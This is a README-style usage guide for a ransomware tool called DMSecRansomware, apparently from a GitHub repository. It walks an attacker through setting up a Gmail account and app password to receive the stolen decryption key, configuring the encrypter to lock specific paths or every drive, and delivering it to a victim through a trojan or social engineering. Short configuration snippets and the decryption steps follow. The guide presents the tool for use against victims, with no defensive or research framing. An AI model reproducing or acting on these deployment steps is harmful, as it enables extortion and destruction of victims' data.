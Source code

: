 # How to use DMSecRansomware

#### **Author**: [Dhrumil Mistry](https://github.com/dmdhrumilmistry)

## Encrypting data
- Turn on 2FA in attacker's gmail account.
- Create app password
- Update `dmsec_encrypter.py` with email and app password to login to your gmail account. This is used to receive key to decrypt the files.

  ```python
  encrypter = DMSECEncrypter(PATHS, gmail='yourgmailid', passwd='yourapppassword')
  ```
- Specify path which is to be encrypted.
- If all the drives are to be decrypted do not pass PATHS to the DMSECEncrypter

  ```python
  encrypter = DMSECEncrypter(gmail='yourgmailid', passwd='yourapppassword')
  ```
- Create a trojan or use social engineering and send file to the victim.
- Wait for victim to execute the trojan.


## Decrypting Data
- Use `dmsec_decrypter.py` to decrypt the encrypted files.
- Edit paths to be decrypted in `decrypter.py` file. If all the drives are to be decrypted do not pass PATHS to DMSECDecrypter

  ```python
  encrypter = DMSECDecrypter(KEY)
  ```
- Use the key which was received on mail to decrypt the data

